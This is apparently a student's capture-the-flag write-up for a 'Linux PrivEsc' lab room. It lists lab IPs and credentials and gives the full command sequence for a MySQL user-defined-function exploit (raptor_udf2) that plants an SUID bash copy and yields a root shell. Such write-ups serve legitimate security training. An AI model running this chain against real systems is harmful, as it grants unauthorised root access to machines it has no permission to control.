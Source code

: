 # Linux PrivEsc Room
# Completed 15:32 31 DEC 21
# Donkeyk0ng787/Gnome787

# MY IP - 10.4.24.252
# BOX IP - 10.10.218.143

# Creds

	user:password321
	root:password123
	
# Task 2 - Service Exploits

	Given mysql is running as a root user and the "root" user for this service does not have a password assigned to it, we can 
	use a popular exploit "MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)" to run system commands
	as root via the MYSQL service.
	
	For this we compile the exploit code by doing the following
	gcc -g -c raptor_udf2.c -fPIC
	gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc 
	
	From there, we want to connect to the mysql service as root by doing
	mysql -u root
	
	From here we want to execute the following commands on the mysql shell to create a User Defined Function "do_system" using our compiled exploit
	use mysql;
	create table foo(line blob);
	insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
	select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
	create function do_system returns integer soname 'raptor_udf2.so';
	
	We then want to copy /bin/bash to /tmp/rootbash and set the SUID permission to the "do_system" function
	select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
	
	We can then exit out of the mysql shell and run the rootbash executable with -p to gain a root shell
	/tmp/rootbash -p
	
	If you wish to remove the rootbash executable you would simply do
	rm /tmp/rootbash
	